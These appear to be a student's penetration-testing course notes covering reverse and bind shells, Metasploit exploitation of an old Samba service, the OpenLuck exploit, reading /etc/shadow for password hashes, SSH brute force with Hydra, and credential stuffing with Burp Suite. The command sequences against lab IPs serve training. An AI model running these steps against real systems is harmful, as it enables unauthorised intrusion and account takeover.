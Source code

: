 # Reverse Shells vs Blind Shells
shell = access to a machine
can use netcat `nc` to listen

### Reverse shell
- a target connects to us
- used most of the time

### Bind shell
- we open a port on the target, then we connect to it
- used for specific scenarios

❗️**Reverse shell = victim connects to us, Bind shell = we connect to victim**

# Staged vs Non-Staged Payloads
payload = what we run as an exploit to attempt to gain a shell on machine

### Non-staged
- sends exploit shellcode all at once
- larger in size and wont always work
- ex: `windows/meterpreter_reverse_tcp`
	- full payload

### Staged
- send payload in stages
- can be less stable
- ex: `windows/meterpreter/reverse_tcp`
	- 2 stage paylod

❗️**if you have a payload that doesn't work, try the other type of the same payload**

# Gaining Root with Metasploit
*attacking SMB*
1. search `searchsploit samba 2.2`
	- identified trans2open is juicy
2. load msf `msfconsole`
3. search the juicy `search trans2open`
	- select best option based on enum info
4. `use 1`
	- `options
	- `set rhosts [IP]
	- can check options again to make sure set is correct
	- check targets: `show targets`
5. run exploit, use `run` or `exploit`
	- is payload keeps dying, check options again for more info `options`
		- check for payload options
	- set payload (use tab for options): `set payload linux/x86/`
		- try non-staged: `set payload linux/x86/shell_reverse_tcp`
			- check `options` to verify
	- rerun exploit
6. if shell >> check `whoami` and `hostname`

# Manual Exploitation
*using OpenLuck*
1. follow github instructions
2. get number from supported offset list based on info from enum
3. run with parameters: `./open 0x6b 192.168.57.134 -c 40`
4. wait for exploit, if shell >> check `whoami` and `hostname`
5. can check /etc/passwd for users `cat /etc/passwd`
6. can check /etc/shadow for password hashes `cat /etc/shadow`

# Brute Force Attacks
*attacking SSH*
- to test password strength and how well blue team performs

### Hydra
- brute force tool
1. start `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt`
2. specify: `ssh://192.168.57.134:22 -t 4 -V`

Can run same thing in metasploit
1. `msfconsole
2. `search ssh`
	- look for SSH in list
3. past from list: `use auxiliary/scanner/ssh/ssh_login`
4. check and set options `options`
	- `set username root`
	- `set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`
	- `set rhosts 192.168.57.`
	- `set verbose true`
5. start exploit `run`

brute force may not work >> can let it run then kill if no results

# Credential Stuffing and Password Spraying
#### FoxyProxy
- install in firefox
- add proxy (Burp Suite) >> proxy type: HTTP >> IP: 127.0.0.1 >> Port: 8080 >> save
- can toggle to quickly turn burp suite on/off

### Credential Stuffing
- injecting breached account credentials in hoped of account takeover
1. navigate to webapp sign-in page
2. turn proxy/intercept on
3. input in fields and submit
4. in Burp, send intercept results to intruder
5. intruder >> positions >> clear
	-  highlight user/email and pass parameters (click add) 
6. use attack types - heath used pitchfork, sniper is most common (but uses one parameter)
7. copy breach list from recon >> paste into payloads in burp for payload set 1 (users) and set 2 (passwords)
8. start attack
	- observe any status changes, significant changes in length
	- check response >> take we can not sign you in insert into Grep - Match in Options, this will filter out

### Password Spraying
- using known usernames without a known password
- ask about password lockout so you don't lock users out
1. similar steps above
2. switch to sniper
3. start attack

❗️**If you see a login page - ALWAYS try default credentials**






